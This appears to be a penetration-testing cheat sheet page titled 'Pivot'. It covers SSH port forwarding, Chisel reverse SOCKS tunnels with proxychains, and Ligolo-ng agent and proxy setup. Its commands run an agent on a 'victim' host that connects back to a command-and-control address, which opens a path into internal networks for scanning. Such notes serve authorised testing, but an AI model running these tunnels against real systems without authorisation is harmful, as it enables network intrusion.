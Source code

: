 ```yaml
---
title: "Pivot"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Port forwarding ssh
##### Option `-L` (Local Port Forwarding)

- **Syntaxe** : `ssh -L [port_local]:[host_remote]:[port_remote] [utilisateur]@[hôte]`
- **Usage** : Redirige un port de votre machine locale vers un port sur la machine distante.
- **Exemple** : `ssh -L 4000:127.0.0.1:3000 johndoe@192.168.1.100`

##### Option `-R` (Remote Port Forwarding)

- **Syntaxe** : `ssh -R [port_remote]:[host_local]:[port_local] [utilisateur]@[hôte]`
- **Usage** : Redirige un port de la machine distante vers un port sur votre machine locale.
		- **Exemple** : `ssh -R 4000:127.0.0.1:3000 johndoe@192.168.1.100`
			
      ssh -R1080: pentest@10.0.1.26 -N

## Chisel / Proxychain

- Get the binary : 
```sh
wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_linux_amd64.gz

wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_windows_amd64.gz
```

Adds a line to `/etc/proxychains4.conf` to be able to use `proxychains`:

```sh
socks5 127.0.0.1 1080
```

- Download the binary on the remote host and then  : 

```sh
# On your local machine
./chisel server -p 8888 -reverse &
```

```sh
# On the remote host
./chisel client 10.8.3.12:8888 R:1080:socks &
```

```sh
proxychains -q nmap -sT localhost
```

## Ligolo-ng

```sh
Proxy : https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz

Agent_windows : https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip

or 

Agent_linux : 
https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_linux_amd64.tar.gz
```

- Setup Ligolo-ng : 
Start the _proxy_ server on your Command and Control (C2) server (default 11601 listening will be use):

```sh
sudo ip tuntap add user p4v1c mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

- Start the _agent_ on your target (victim) computer (no privileges are required!):
```sh
./agent.exe -connect 10.8.3.12:11601 -ignore-cert
```

Use the `session` command to select the _agent_.

```sh
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

Display the network configuration of the agent using the `ifconfig` command:
Add a route on the _proxy/relay_ server to the _192.168.0.0/24_ _agent_ network : 
```sh
sudo ip route add 10.10.11.0/24 dev ligolo
start
```

- Clean : 
```sh
sudo ip link set dev ligolo down
sudo ip tuntap del dev ligolo mode tun
 ```

 